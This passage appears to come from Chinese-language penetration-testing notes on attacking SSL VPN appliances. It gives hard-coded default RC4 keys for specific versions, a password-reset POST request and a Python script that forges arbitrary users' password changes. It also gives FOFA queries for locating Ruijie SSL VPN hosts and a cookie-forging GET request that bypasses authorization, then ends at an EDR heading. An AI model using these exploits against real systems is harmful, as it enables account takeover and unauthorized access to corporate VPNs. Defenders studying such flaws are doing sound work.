 加密算法使用了默认的key，攻击者构利用key构造重置密码数据包从而修改任意用户的密码。利用需要登陆账号。

- M7.6.6R1版本key为20181118
- M7.6.1key为20100720

```
POST /por/changepwd.csp

sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN(脚本计算后结果)
```

```python
from Crypto.Cipher import ARC4
from binascii import a2b_hex

def myRC4(data, key):
    rc41= ARC4.new(key)
    encrypted =rc41.encrypt(data)
    return encrypted. encode('hex')

def rc4_decrpt_hex(data, key):
    rc41= ARC4. new(key)
    return rc41. decrypt(a2b_hex(data))

key= '20100720'
data = r',username-TARGET_USERNAME, ip-127.0.0.1,grpid-1, pripsw-suiyi , newpsw=TARGET PASSWORD,'
print myRC4(data, key)
```

#### 锐捷 SSL VPN

FOFA：

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

##### 越权访问

- UserName 参数为已知用户名

```
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Cookie: UserName=admin; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

#### Juniper SSL VPN 

- [Juniper SSLVPN / JunOS RCE and Multiple Vulnerabilities](https://octagon.net/blog/2022/10/28/juniper-sslvpn-junos-rce-and-multiple-vulnerabilities/)

## 三、终端响应与检测

### 0x01 EDR/杀软

#### 深信服 EDR
